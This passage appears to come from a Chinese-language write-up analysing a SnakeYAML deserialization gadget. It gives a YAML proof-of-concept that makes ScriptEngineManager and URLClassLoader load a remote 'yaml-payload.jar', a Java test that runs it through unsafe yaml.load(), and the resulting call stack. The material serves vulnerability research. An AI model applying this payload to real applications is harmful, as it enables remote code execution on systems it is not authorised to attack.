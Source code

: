 ```plain
python -m http.server 8080
```

POC：

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8080/yaml-payload.jar"]
  ]]
]
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8080/yaml-payload.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```plain
nextService:381, ServiceLoader$LazyIterator (java.util)
next:404, ServiceLoader$LazyIterator (java.util)
next:480, ServiceLoader$1 (java.util)
initEngines:122, ScriptEngineManager (javax.script)
init:84, ScriptEngineManager (javax.script)
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
construct:570, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:10, PocTest2 (SnakeYaml)
```

前面的大致步骤还是和JdbcRowSetImpl链的过程一致，这里的关键在于Constructor不一致，这里是ConstructSequence，在对ScriptEngineManager实例化的过程中就会触发命令执行  